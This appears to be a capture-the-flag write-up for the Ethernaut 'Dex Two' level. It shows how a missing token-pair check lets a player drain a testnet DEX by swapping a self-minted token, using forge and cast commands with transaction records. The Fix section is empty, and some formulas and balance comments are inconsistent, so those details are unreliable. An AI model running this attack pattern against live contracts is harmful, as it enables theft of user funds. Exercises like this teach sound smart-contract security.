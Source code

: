 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      |Player|      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 |
| 0       |    0 |  400 |  110 |  110 |    0 |

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0x659BFCd93A970941C49d54591A117d75042281A6

# At $CONTRACT_ADDRESS=0x659BFCd93A970941C49d54591A117d75042281A6
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 400
```

2. Send 100 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# https://sepolia.etherscan.io/tx/0xaa361215bdf3f8756b8d9646da8a6eba68d36ed4ff9db451fa3f336effbbf209

# At $CONTRACT_ADDRESS=0x659BFCd93A970941C49d54591A117d75042281A6
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At $DEX2_ADDRESS=0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# balanceOF
# token address (BTN): 0x659BFCd93A970941C49d54591A117d75042281A6
# Dex2 contract address (DEX2_ADDRESS) : 0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# equals 300
```

3. Approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xa134cdb28083dc2ec49789336be65724241aacf9c095312ca60956d3e671717c
```

4. Execute the swap of both tokens.

```bash
forge script script/DeployDex2AttackSwap.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# At $DEX2_ADDRESS=0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# balanceOF
# token address (BTN): 0x659BFCd93A970941C49d54591A117d75042281A6
# Dex2 contract address (DEX2_ADDRESS) : 0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# equals 300
```

## Fix
